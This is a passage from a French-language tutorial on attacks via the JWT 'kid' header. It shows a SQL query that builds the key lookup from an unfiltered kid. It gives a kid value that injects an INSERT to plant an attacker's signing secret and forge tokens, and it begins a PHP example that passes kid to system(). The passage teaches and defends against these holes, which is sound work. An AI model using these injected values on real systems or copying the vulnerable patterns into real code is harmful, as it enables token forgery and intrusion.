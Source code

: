 ##### Cas 2 :

Imaginons maintenant que les clés soient stockées dans la table `secrets` de la base de données de l'application.

Le KID sert alors à indiquer l'ID de la clé à utiliser pour vérifier la signature dans la table secrets.

L'application va devoir faire un appel à la base de données pour récupérer le secret à chaque fois qu'il vérifie un jeton, en SQL :

<div class="language-sql highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="k">SELECT</span> <span class="n">secretPlain</span> <span class="k">FROM</span> <span class="n">secrets</span> <span class="k">where</span> <span class="n">id</span><span class="o">=</span><span class="n">$kid</span> <span class="k">limit</span> <span class="mi">0</span><span class="p">,</span><span class="mi">1</span><span class="p">;</span>
</code></pre></div></div>

Si le KID n'est pas filtré contre les injections SQL, l'attaquant peut alors insérer sa propre clé ou mener des attaques SQL à l'aveugle pour voler des informations !

Ici il insère son propre secret dans la base de données, la clé d'ID 72 de la table sera `je tai hacke mdr` :

<div class="language-json highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="p">{</span><span class="w">
	</span><span class="nl">"alg"</span><span class="w"> </span><span class="p">:</span><span class="w"> </span><span class="s2">"HS256"</span><span class="p">,</span><span class="w">
	</span><span class="nl">"typ"</span><span class="w"> </span><span class="p">:</span><span class="w"> </span><span class="s2">"JWT"</span><span class="p">,</span><span class="w">
	</span><span class="nl">"kid"</span><span class="w"> </span><span class="p">:</span><span class="w"> </span><span class="mi"><strike>2</strike></span><span class="w"> </span><span class="s2">"2; INSERT INTO secrets VALUES (72,'je tai hacke mdr');--"</span><span class="w">
</span><span class="p">}</span><span class="w">
</span></code></pre></div></div>

Il lui suffit ensuite de fabriquer son jeton et de le signer avec le secret qu'il a inséré, en indiquant bien le KID 72 dans le header :

```json
{
	"alg" : "HS256",
	"typ" : "JWT",
	"kid" : "72"
}
```

*S'il est nécessaire de filtrer le KID contre les injections, il faut aussi bien définir les rôles dans la base de données pour limiter la portée d'une attaque réussie !*

##### Cas 3 :

Il est possible que le KID soit passé en paramètre d'une commande shell.

Petit exemple en PHP :

```php
$key=system("findMyKey ".$kid);
```
